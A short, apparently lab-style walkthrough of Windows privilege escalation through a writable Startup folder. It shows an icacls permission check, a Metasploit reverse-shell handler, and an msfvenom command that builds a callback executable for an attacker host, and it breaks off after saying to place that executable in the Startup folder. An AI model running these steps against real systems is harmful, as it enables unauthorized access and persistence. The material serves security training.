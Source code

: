 **Detection**

Let's check our privileges on the "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" directory.

~~~
C:\Users\user>icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup BUILTIN\Users:(F)
                                                             TCM-PC\TCM:(I)(OI)(CI)(DE,DC)
                                                             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                                             BUILTIN\Administrators:(I)(OI)(CI)(F)
                                                             BUILTIN\Users:(I)(OI)(CI)(RX)
                                                             Everyone:(I)(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
~~~

We have full (F) access.

**Exploitation**

Now, let's setup a handler in metasploit:

~~~
$ msfconsole -q
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.9.**.**
LHOST => 10.9.**.**
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.**.**:4444 
~~~

Let's use msfvenom to make an executable reverse shell:

~~~
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.**.** LPORT=4444 -f exe -o shell.exe
~~~

Now, transfer the reverse shell to the Windows machine and place it to "C:\ProgramData\Microsft\Windows\Start Menu\Programs\Startup". 

